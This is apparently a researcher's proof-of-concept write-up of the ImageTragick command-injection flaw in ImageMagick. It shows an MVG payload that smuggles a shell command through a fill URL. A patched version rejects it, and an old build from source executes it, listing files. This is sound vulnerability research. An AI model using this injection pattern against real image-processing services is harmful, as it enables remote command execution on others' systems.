 




# Exploitability assessment

As @zalewski puts it, the ImageTragick flaw is most notable for its ease of exploitation, "an embarrassingly simple shell command injection bug reminiscent of the security weaknesses prevalent in the 90's, and nearly extinct in core libraries in use today".

On my Kali machine, ships with a 2019 patched version 6.9.10-23 of the ImageMagick utilities and libraries:

     # convert --version
     Version: ImageMagick 6.9.10-23 Q16 x86_64 20190101 https://imagemagick.org
     Copyright: © 1999-2019 ImageMagick Studio LLC
     License: https://imagemagick.org/script/license.php
     Features: Cipher DPC Modules OpenMP 
     Delegates (built-in): bzlib djvu fftw fontconfig freetype heic jbig jng...

Crafting a payload to take advantage of the vulnerability:

    # cat exploit.mvg 
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://127.0.0.0/spl017.jpg"|ls "-la)'
    pop graphic-context


Testing the vulnerability with an image payload, yields a "not a JPEG" file, as file type checking code has been introduced in recent times.

    # convert exploit.mvg exploit.png
    convert-im6.q16: Not a JPEG file: starts with 0x70 0x75 `rce1.jpg' @ error/jpeg.c/JPEGErr
        orHandler/335.
    convert-im6.q16: no images defined `rce1.png' @ error/convert.c/ConvertImageCommand/3258.


After downloading a pre `6.9.3-10` version of the ImageMagick source code, in this case `6.9.2-10`, from [sourceforge.net](https://sourceforge.net/projects/imagemagick/files/old-sources/6.x/6.9/ImageMagick-6.9.2-10.tar.gz/download), got a local build of the binaries.

    ./configure
    make

Attempting to `convert` (one of the most feature laden ImageMagick binaries) using the `6.9.2-10` build, with the exploit input image:

    root@kali:~/git/PoCs# ./exploit.sh 
    total 84
    drwxr-xr-x 3 root root  4096 Sep 28 15:43 .
    drwxr-xr-x 3 root root  4096 Sep 28 13:29 ..
    -rw-r--r-- 1 root root   112 Sep 28 15:43 exploit.mvg
    -rw-r--r-- 1 root root   111 Sep 28 15:41 exploit.png
    -rwxr-xr-x 1 root root   241 Sep 28 15:33 exploit.sh
    drwxr-xr-x 8 root root  4096 Sep 28 09:31 .git
    convert: unrecognized color `https://localhost/sp1017.jpg"|ls ...
    convert: unable to open image `/tmp/magick-22459XyJrh1pYEj2M':...
    convert: unable to open file `/tmp/magick-22459XyJrh1pYEj2M': ...
    convert: non-conforming drawing primitive definition `fill' @ ...
